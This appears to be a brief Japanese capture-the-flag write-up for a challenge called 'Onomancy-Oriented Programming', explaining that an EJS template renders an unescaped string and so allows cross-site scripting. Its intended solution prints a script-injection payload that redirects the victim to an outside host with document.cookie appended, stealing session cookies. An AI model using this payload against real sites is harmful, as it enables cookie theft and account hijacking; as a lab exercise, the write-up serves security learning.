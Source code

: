 # Onomancy-Oriented Programming

[app/views/index.ejs#L59](dist/app/views/index.ejs#L59) に unescaped string を放り込める箇所がありXSS可能な脆弱性があるので、適当にscriptタグを放り込むと動く。

* [EJS -- Embedded JavaScript templates](https://ejs.co/#docs)

## 想定解

`"><script>location.href = "http://xss.hkt.sh/" + document.cookie</script>`

